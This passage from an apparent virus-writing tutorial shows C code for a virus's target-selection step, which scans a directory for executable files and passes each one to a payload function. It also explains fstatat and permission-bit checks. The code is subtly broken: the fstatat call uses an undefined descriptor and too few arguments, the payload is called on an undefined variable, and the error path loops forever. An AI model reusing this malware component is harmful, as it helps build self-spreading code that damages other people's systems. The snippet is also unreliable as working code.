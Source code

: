 ```C
int select_target (PAYLOAD_FUNC pf) {
  char                buf[BUF_SIZE];
  struct linux_dirent *de;
  struct stat         st;
  int                 fd, n, i;
  
  if ((fd = open (folder, O_RDONLY | O_DIRECTORY)) < 0) MFW_EXIT("open:");

  while (1) {
    n = getdents (fd, buf, BUF_SIZE);
    if (n < 0) MFW_EXIT ("getdents:");
    if (n == 0) break;

    for (i = 0; i < n;) {
      de = (struct linux_dirent *)(buf + i);
	  
      if ((fstatat (fs, de->d_name, &st)) < 0) {
		  perror ("stat:");
		  continue; // Just ignore the error
      }
      if (((st.st_mode & S_IFMT) == S_IFREG)
		  && (st.st_mode & 00111))
		  pf (target);
      
      i += de->d_reclen;

    }
  }
 done:
  close (fd);
  return 0;
}
```

Two comments on this code:

1. We have used `fstatat` instead of `fstat` or `stat`, so we do not have to build the full path to the file before calling `stat`. This syscall uses the directory file descriptor as base and tried to look for the file **AT** the directory that we pass as first parameter. In this case it is very convenient and we avoid allocating memory for strings and concatenating them.
2. This is the `select_target` for a virus. We are checking that the directory entry is a regular file (`S_IFREG`) and then we check that it is executable. In this case we are just checking for all possible executable permissions but that may be different in a real case.

The permission checking could also be written like:

```C
st.st_mode & 00111; // Is the same than
st.st_mode & (S_IXUSR|S_IXGRP|S_IXOTH)
```

Second one is better as you can easily see what we are comparing to... and the generated code would be the same... But first one is shorter and I chose that.
